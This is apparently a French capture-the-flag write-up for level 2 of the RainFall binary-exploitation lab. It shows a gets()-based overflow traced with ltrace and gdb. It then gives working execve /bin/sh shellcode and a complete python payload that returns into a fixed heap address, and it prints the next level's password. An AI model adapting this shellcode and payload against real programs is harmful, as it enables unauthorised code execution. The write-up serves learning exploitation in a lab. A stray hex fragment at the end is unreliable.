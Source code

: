 ### Level 2

En ouvrant level2 avec cutter on voit que le main appelle une fonction p qui contient comme pour l'exercice precedant un gets exploitable, mais cette fois-ci le programme est protégé on ne peut donc pas exploiter la stack. Nous allons donc exploiter le heap (le tas).

La fonction fait un strdup du retour de gets, et on remarque que l'adresse de retour du malloc est fix, qu'on peut peut recupere grace a ltrace.

```
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff804, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                             = 0
gets(0xbffff70c, 0, 0, 0xb7e5ec73, 0x80482b5l
)                                  = 0xbffff70c
puts("l"l
)                                                                      = 2
strdup("l")                                                                    = 0x0804a008
+++ exited (status 8) +++
level2@RainFall:~$ 
```
Maintenant nous voulons écrire notre code pour que l'adresse mémoire retourner par le malloc soit en réalité notre exploitation. On trouve un shell code permettant de faire ça ici : http://shell-storm.org/shellcode/files/shellcode-575.php 
```
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
```
Il nous reste a trouver la limite du malloc pour ce fair nous allons tenter de fair segfault le programe et recupere le nombre de character a rentre grace un buffer overflow generateur qu'on trouve ici : https://wiremask.eu/tools/buffer-overflow-pattern-generator/ , il suffit ensuite d'entre la chaine donner en utilisant *gdb* qui nous donnera l'addresse du segfault.
```
level2@RainFall:~$ gdb ./level2 
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) run
Starting program: /home/user/level2/level2 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb) 
```
Comme dans le level précédent on créé donc notre payload qui sera donné en entré au programme. On commence donc par le shellcode qui permet de casser le binaire, puis on y ajoute des caractères quelconques pour atteindre la limite de mémoire et pour finir on y injecte l'adresse mémoire à laquelle on veut retourner notre programme. On lance le programme avec notre payload.
```
level2@RainFall:~$ python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "a"
 * 59 + "\x08\xa0\x04\x08"' > /tmp/payload
level2@RainFall:~$ cat /tmp/payload - | ./level2
 X�Rh//shh/bin��1�̀aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```